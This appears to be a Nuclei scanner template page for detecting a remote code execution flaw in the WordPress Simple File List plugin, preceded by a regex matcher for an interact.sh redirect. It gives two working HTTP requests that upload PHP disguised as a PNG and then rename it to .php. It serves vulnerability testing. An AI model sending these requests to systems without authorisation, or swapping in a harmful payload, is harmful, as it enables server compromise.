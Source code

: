 **Type - regex**
- part - header
- regex
    1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]*)interact\.sh\/?(\/|[^.].*)?$

---
# WordPress SimpleFilelist - Remote Code Execution
## Description
- Simple File List WordPress plugin was found to be vulnerable to an unauthenticated arbitrary file upload leading to remote code execution. The Python exploit first uploads a file containing PHP code but with a png image file extension. A second request is sent to move (rename) the png file to a PHP file.

- severity - critical
- tags - wpscan,wordpress,wp-plugin,rce,intrusive,fileupload,python
## Requests
### Step - 1
```
POST /wp-content/plugins/simple-file-list/ee-upload-engine.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=6985fa39c0698d07f6d418b37388e1b2

--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_ID"

1
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_FileUploadDir"

/wp-content/uploads/simple-file-list/
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_Timestamp"

1587258885
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="eeSFL_Token"

ba288252629a5399759b6fde1e205bc2
--6985fa39c0698d07f6d418b37388e1b2
Content-Disposition: form-data; name="file"; filename="nuclei.png"
Content-Type: image/png

<?php echo "Nuclei - Open source project (github.com/projectdiscovery/nuclei)"; phpinfo(); ?>
--6985fa39c0698d07f6d418b37388e1b2--

```
### Step - 2
```
POST /wp-content/plugins/simple-file-list/ee-file-engine.php HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Accept: */*
Content-Type: application/x-www-form-urlencoded

eeSFL_ID=1&eeFileOld=nuclei.png&eeListFolder=%2F&eeFileAction=Rename%7Cnuclei.php

```